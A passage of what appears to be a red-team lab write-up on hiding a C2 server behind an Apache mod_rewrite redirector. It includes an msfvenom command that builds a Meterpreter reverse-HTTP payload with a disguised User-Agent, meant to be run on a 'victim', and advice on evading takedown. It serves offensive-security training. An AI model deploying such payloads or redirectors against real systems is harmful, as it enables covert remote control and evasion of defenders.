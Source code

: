 Usually, when you have a C2 callback, you may set the callback host to a Domain, let’s say admin.tryhackme.com. It’s very common for your C2 Server to get reported, when a user files a complaint. Usually, the server gets taken down fairly quickly. It can sometimes be as little as 3 hours and as much as 24. Setting up a redirector ensures that any information you may have collected during the engagement is safe and sound.

But how does this stop the C2 Server from being taken down? Surely if someone fingerprinted Cobalt Strike on your C2 Server, someone would file a complaint, and it would got taken down. This is true, so you should set up a Firewall to only allow communication to and from your redirector(s) to mitigate any potential risks.

**How is a Redirector Setup?**

Before we dive into configuring a redirector, we must first understand how one is set up; we will be aligning this to the tools we have available, which are Metasploit and Apache2. In Apache, we will be leveraging a module called “**mod\_rewrite”** (or the Rewrite module). This module allows us to write rules to forward requests to internal or external hosts on a server based on specific HTTP headers or content. We will need to use several modules to configure our Redirector. The following modules must be enabled:

> • rewrite

> • рrоху

> • proxy\_http

> · headers

You can install apache 2 and enable it with the following commands:

> **apt install apache2**

Using Meterpreter, we have the ability to configure various aspects of the HTTP Request, for example, the **User-Agent**. It is very common for a threat actor to make a slight adjustment to the User-Agent in their C2 HTTP/HTTPS payloads. It’s in every HTTP request, and they all more or less look the same, and there is a very good chance a security analyst may overlook a modified user agent string. For this demonstration, we will generate a Meterpreter Reverse HTTP payload using MSFvenom; then we will inspect the HTTP request in Wireshark.

**Generating a Payload with Modified Headers :**

> **msfvenom -p windows/meterpreter/reverse\_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe**

After generating the modified executable and transferring it to a victim, open up Wireshark on your host and use the HTTP filter to only view HTTP requests. After it’s started capturing packets, execute the binary on the victim system. You will notice an HTTP request come in with our modified User-Agent.

![](https://cdn-images-1.medium.com/max/800/1*zI559jrrg2Hw-paCst2YAA.png)

Now that we have a field we can control in the HTTP Request, let’s create an Apache2 **mod\_rewrite** rule that filters on the user agent “**NotMeterpreter”** and forward it to our Metasploit C2 Server.

#### **Modifying the Apache Config File**

This section may sound intimidating but is actually quite easy; we will be taking the default Apache config and modifying it to our advantage. On Debian based systems, the default config can be found **at /etc/apache2/sites-available/000-default.conf**
